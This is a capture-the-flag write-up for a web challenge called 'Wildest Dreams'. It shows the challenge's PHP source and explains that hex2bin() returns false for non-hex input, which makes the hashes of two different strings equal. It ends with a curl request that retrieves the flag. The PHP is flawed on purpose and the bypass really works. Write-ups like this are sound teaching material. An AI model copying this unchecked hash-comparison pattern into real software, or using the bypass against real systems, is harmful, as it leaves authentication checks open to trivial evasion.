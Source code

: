 # [Web] Wildest Dreams

## Description

I am told that I can be in your wildest dreams...

![WildestDreams01](images/WildestDreams01.png)

## Summary

PHP "feature" of how [hex2bin()](https://www.php.net/manual/en/function.hex2bin.php) returns `boolean(false)` for non-hex strings.

## Walkthrough

We are given the page's [source](files/1989.php):

```php
<?php
    if(!empty($_GET['i1']) && !empty($_GET['i2'])){
        $i1 = $_GET['i1'];
        $i2 = $_GET['i2'];
        if($i1 === $i2){
            die("i1 and i2 can't be the same!");
        }
        $len1 = strlen($i1);
        $len2 = strlen($i2);
        if($len1 < 20){
            die("i1 is too shorttttttt pee pee pee pee pee");
        }
        if($len2 < 20){
            die("i2 is too shorttttttt pee pee pee pee pee");
        }
        if(sha1(hex2bin($i1)) === sha1(hex2bin($i2)));
            if(md5(hex2bin($i1)) !== md5(hex2bin($i2)))
                echo "All I want to be is in your wildest dreams";
                if(md5(hex2bin($i1)) == md5(hex2bin($i2)))echo $flag;
        echo "<br>I think he did it, but i just cant prove it.";
    } else {
        echo "<br> You need to provide two strings, i1 and i2. /1989.php?i1=a&i2=b";
    }
?>
```

Well, it seems like in order to get the flag, we need to supply 2 HTTP parameters `i1` and `i2`. The constraints are:
1. They cannot be the same string.
2. They must be >= 20 characters.
3. The SHA1 and MD5 of their binary form must match.

Although it seems "impossible" to find 2 different strings that have MD5 and SHA1 collisions, let us take a step back and see what `hex2bin()` does. The code tries to take the input string and convert it to its binary form. However, what if the input string is **not in hexadecimal**?

> ![WildestDreams02](images/WildestDreams02.png)

Verifying that we indeed get `false` for non-hexadecimal strings:

```php
$i1 = sha1(hex2bin("0x000000000000000001"));
$i2 = sha1(hex2bin("0x000000000000000002"));
$i3 = md5(hex2bin("0x000000000000000001"));
$i4 = md5(hex2bin("0x000000000000000002"));
var_dump($i1);
var_dump($i2);
var_dump($i3);
var_dump($i4);
```

Results in:

```
string(40) "da39a3ee5e6b4b0d3255bfef95601890afd80709"
string(40) "da39a3ee5e6b4b0d3255bfef95601890afd80709"
string(32) "d41d8cd98f00b204e9800998ecf8427e"
string(32) "d41d8cd98f00b204e9800998ecf8427e"
```

So we can just use any 2 strings that are not hexadecimals and we will get the flag:

```bash
$ curl -s "http://chals.ctf.sg:30501/1989.php?i1=0x000000000000000001&i2=0x000000000000000002" | grep CTFSG

CTFSG{1-+h1nk-h3-d1d-1+-bu+-I-ju5t-c4n+-pr0v3-1t}
```
